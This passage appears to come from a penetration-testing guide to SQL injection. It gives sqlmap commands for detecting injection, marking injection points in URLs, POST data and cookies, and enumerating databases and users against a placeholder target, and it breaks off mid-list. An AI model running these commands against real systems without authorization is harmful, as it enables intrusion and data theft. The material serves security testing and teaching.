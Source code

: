 ### 2.2 Observe Responses
```bash
# Look for:
- SQL error messages
- Different response times
- Changes in page content
- Different HTTP status codes
- Application behavior changes
```

---

## Phase 3: SQLMap Basic Detection

### 3.1 Initial SQLMap Scan
```bash
# Start with basic detection
sqlmap -r request.txt --batch

# If no injection found, increase level and risk
sqlmap -r request.txt --level=3 --risk=2 --batch

# For time-sensitive environments
sqlmap -r request.txt --technique=B --batch  # Boolean-based only
```

### 3.2 Mark Injection Points
```bash
# Manually mark suspected injection points with asterisk (*)
# In URL: http://target.com/page?id=1*
# In POST data: username=admin*&password=test
# In Cookie: sessionid=abc123; trackingId=xyz*
```

### 3.3 Optimize Detection
```bash
# Specify DBMS if known
sqlmap -r request.txt --dbms=mysql --batch

# Use specific detection string
sqlmap -r request.txt --string="Welcome" --batch

# Handle different response codes
sqlmap -r request.txt --code=200 --batch
```

---

## Phase 4: Enumeration Phase

### 4.1 Database Discovery
```bash
# Follow this enumeration order:
1. Get current database
sqlmap -r request.txt --current-db --batch

2. List all databases
sqlmap -r request.txt --dbs --batch

3. Get current user
sqlmap -r request.txt --current-user --batch

4. Check DBA privileges
```
